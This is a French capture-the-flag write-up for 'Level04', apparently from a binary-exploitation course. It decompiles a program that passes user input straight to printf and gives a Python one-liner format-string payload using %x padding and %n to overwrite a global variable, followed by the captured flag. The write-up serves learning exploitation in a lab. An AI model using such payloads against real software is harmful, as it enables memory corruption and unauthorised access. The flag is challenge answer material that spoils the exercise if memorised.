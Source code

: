 # Rapport CTF - [Level04]

### Observation :
En arrivant sur le level4 on trouve un executable nommé level4.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaine de caractere puis se ferme, comme sur le level precedant. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048444) --------------------------------------------------------
int __cdecl p(char *format)
{
  return printf(format);
}

//----- (08048457) --------------------------------------------------------
int n()
{
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  p(s);
  result = m;
  if ( m == 16930116 )
    return system("/bin/cat /home/user/level5/.pass");
  return result;
}
// 8049810: using guessed type int m;

//----- (080484A7) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return n();
}
```
Ce level est pareil que le dernier a quelque petit details:
- Le printf est dans une autre fonction.
- `m` dois maintenant etre egal a `16930116`.


### Solution :
Le principe reste le meme, mais il nous faut ecrire plus d'adresse pour decaler plus la memoire, 11 en l'ocurrence, et il nous faut ecrire plus, `16930116` octets. \
Le probleme etant que nous ne pouvons ecrire que 512 caracteres, limite imposer par la fonction `fgets()` \
Pour regler ce probleme nous allons demander a printf d'ecrire beaucoup de caracteres grace au `%x` il nous faut juste prendre notre chiffre de base `16930116` et le diviser par 11 `%x` et ajouter un dernier `%x` modulo de `16930116` - 4 pour notre adresse de `m`; 

On fait la commande suivante pour obtenir le flag :
```sh
python -c "print ('\x08\x04\x98\x10'[::-1] + '%1539094.x ' * 10  + '%1539162.x'+ '%n')" | ./level4
```

### Resultat :
```sh
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
